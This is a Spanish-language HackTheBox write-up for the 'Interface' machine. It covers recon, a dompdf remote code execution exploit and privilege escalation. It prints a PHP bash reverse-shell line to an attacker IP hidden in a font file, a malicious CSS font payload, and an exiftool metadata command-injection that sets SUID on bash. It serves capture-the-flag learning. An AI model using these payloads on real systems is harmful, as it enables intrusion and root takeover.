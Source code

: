 ```yaml
---
layout: single
title: Interface - HackTheBox
excerpt: " A box that sees a lot of fuzzing, plus exploits targeting 'dompdf' with relatively easy privilege escalation. "
date: 2023-02-13
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-interface/interface.png
  teaser_home_page: true
  icon: /blog/assets/images/htb.webp
categories:
  - hackthebox
tags:
  - dompdf
  - NextJS
  - api
  - exiftool
  - metadata
---
```


A box that sees a lot of fuzzing, plus exploits targeting "dompdf" with relatively easy privilege escalation.

# Summary
- IP: 10.129.154.5
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
	-  80 -> nginx 1.14.0

# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.129.154.5 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p22,80 -sCV 10.129.154.5 -oN targeted
```


# Análisis de página web:

- Al entrar a la página principal vemos un mensaje pero no nos sirve de nada, analizando el código fuente y haciendo un escaneo típico de directorios tampoco encontramos nada.

- Interceptamos la petición al entrar a la página con Burpsuite y optenemos la siguiente información contemplada dentro de la respuesta del servidor:


```http
Content-Security-Policy: script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com; connect-src 'self' http://prd.m.rendering-api.interface.htb; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com; img-src https: data:; child-src data:;
```


- Podemos apreciar un subdominio deconocido "prd.m.rendering-api.interface.htb"; lo agregamos al "/etc/hosts".

- Hacemos un escaneo de directorios:

```bash
$gobuster dir -u prd.m.rendering-api.interface.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 100
```

```
$ffuf -u http://prd.m.rendering-api.interface.htb/api/FUZZ -X POST -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -mc all -fs 50
```

Encontramos "/vendor" y "/api/html2pdf"

```bash
$gobuster dir -u prd.m.rendering-api.interface.htb/vendor -w /usr/share/dirb/wordlists/big.txt -t 100
```

Encontramos "/vendor/dompdf"

- Con esta información podemos deducir que la página implementa "dompf" por detrás, buscamos vulnerabilidades para esto y encontramos lo siguiente:

[Exploiting RCE Vulnerability in Dompdf | Optiv](https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf)

- Bingo! un RCE; llevamos a cabo el exploit.


# Exploit dompdf RCE:

- Primero, descargamos cualquier archivo font ".ttf" que encontremos por internet, y lo renombraremos a "exploit_font.php"; a este mismo archivo renombrado le agregamos una linea al final el cual contendrá el comando de la reverse shell:

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.129/443 0>&1'");?>
```

- Luego, creamos un archivo "exploit.css" con el siguiente contenido:

```
@font-face {
    font-family:'exploitfont';
    src:url('http://ipatacante/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
}
```

- Después de haber creado estos archivos, nos montamos un servidor http con python en el puerto 80 para que sean accesibles via web.

```bash
$python3 -m http.server 80
```

- Ahora, enviamos una POST request a /api/html2pdf (en este caso lo hice en el repeater de Burpsuite) con la siguiente estructura:

```http
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
Content-Type: application/json
Content-Length: 79
{
 "html":"<link rel=stylesheet href='http://10.10.15.129:80/exploit.css'>"
}
```

- Hecho esto, debemos localizar el archivo que por detrás se subió, el cual sería el "exploit_font.php"; de acuerdo al artículo, lo podemos localizar en la ruta "/vendor/dompdf/dompdf/lib/fonts/" con un nombre pre formateado por el servidor.

- Para descifrar el nombre que se le adjudicó al archivo por detrás, primero debemos tener en cuenta que tendrá el siguiente formato:

```
exploitfont_normal_hashmd5.php
```

- Donde el "hashmd5" será el archivo "exploit_font.php" que hemos creado, para esto, convertimos en hash la URL que nos dirige a tal archivo:

```bash
$echo -n "http://yourip/exploit_font.php" | md5sum
```

- Obtenemos el hash, entonces el formato del archivo que se guardó por detrás del servidor quedaría de la siguiente manera:

```
exploitfont_normal_4e5e34308ba36fe6d12beda1473f05e5.php
```

- Nos ponemos en escucha por el puerto 443 en nuestra máquina atacante.

- Por último, enviamos una petición GET a la dirección del archivo, tomando en cuenta el formato que hemos armado:


```
GET /vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_4e5e34308ba36fe6d12beda1473f05e5.php cd HTTP/1.1
Host: prd.m.rendering-api.interface.htb
```

- Con todo esto, habremos ganado acceso al sistema como "www-data".


# ESCALANDO PRIVILEGIOS:


- Transferimos el binario de "pspy64" a la máquina víctima y escaneamos los procesos que se están ejecutando por detrás de la máquina, dándonos como resultado lo siguiente:

```bash
2023/02/14 04:35:05 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity 
2023/02/14 04:36:01 CMD: UID=0     PID=5679   | /bin/bash /usr/local/sbin/cleancache.sh 
2023/02/14 04:36:01 CMD: UID=0     PID=5678   | /bin/sh -c /usr/local/sbin/cleancache.sh
```

- Como podemos ver, el usuario root (UID=0) está ejecutando la script "cleancache.sh" cada cierto tiempo, analizamos dicha script:

```bash
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do
    if [[ -f "$cfile" ]]; then
        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)
        if [[ "$meta_producer" -eq "dompdf" ]]; then
            echo "Removing $cfile"
            rm "$cfile"
        fi
    fi
done
```

- La script obtiene el valor de "producer" de los metadatos de los archivos alojados en el directorio  "/tmp" y lo compara con "dompdf".

- Dado que podemos controlar los metadatos de los archivos, podemos controlar qué es $meta_producer y podemos usarlo para inyectar comandos.

- Entonces creamos un archivo "pwned.sh" en un directorio en el que tengamos permisos de escritura, en este caso podemos hacerlo en "dev/shm/" y le damos permisos de ejecución:

```bash
$touch /dev/shm/pwned.sh
$nano /dev/shm/pwned.sh
```

```
chmod u+s /bin/bash
```

```bash
$chmod +x /dev/shm/pwned.sh
```

- Ahora creamos un archivo "pwned" en el directorio "/tmp" y modificamos los metadatos con el fin de que ejecute el comando de la script que cabamos de crear:

```bash
$touch /tmp/pwned
$exiftool -Producer='a[$(/dev/shm/pwned.sh>&2)]+42' /tmp/pwned
```

- Ejecutamos la script "cleancache.sh" dado que tenemos permisos de ejecución.

```bash
$./cleancache.sh
```

- Y por último ejecutamos la bash con privilegios y seremos root:

```bash
$bash -p
```
